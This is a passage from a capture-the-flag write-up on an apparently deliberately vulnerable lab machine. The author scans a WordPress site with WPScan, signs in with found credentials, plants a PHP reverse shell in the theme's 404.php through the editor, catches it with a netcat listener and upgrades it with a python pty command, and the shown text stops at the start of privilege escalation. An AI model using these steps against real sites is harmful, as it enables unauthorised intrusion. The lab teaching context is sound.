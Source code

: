         WordPress Security Scanner by the WPScan Team 
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://192.168.128.140/
[+] Started: Tue Oct 10 18:31:01 2017

[...]

</code></pre>
</div>

<p>The discovered version of WordPress contains <a href="https://wpvulndb.com/wordpresses/431">multiple vulnerabilities</a> and the site is using many vulnerable plug-ins.  This is irrelevant at this point to our goal, however, because we are able to sign into WordPress with <code class="highlighter-rouge">elliot:ER28-0652</code>!</p>

<h1 id="gaining-a-foothold">Gaining a Foothold</h1>

<p>Once authenticated to WordPress I upload a <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">php reverse shell</a>.  I go to the Dashboard -&gt; Appearance -&gt; Editor.  From here I can paste my code into any of the files.  The first in the list is the default 404.php file, so it will be our victim today.  I paste the code in, click “Update File”, and then simply browse to the resource with Firefox.</p>

<p>Then I catch my reverse shell with netcat:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>root@kali:~# nc -lp 80
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 00:30:53 up  3:00,  0 users,  load average: 0.00, 0.01, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
daemon@linux:/$ 

</code></pre>
</div>

<p>That wasn’t so bad!  Now to get the rest of the flags, and get to ROOT.</p>

<h1 id="privilege-escalation">Privilege Escalation</h1>

<p>I examine the filesystem and find a home directory for a user named “robot”</p>

<div class="highlighter-rouge"><pre class="highlight"><code>daemon@linux:/$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 2 root root 4096 Nov 13  2015 robot
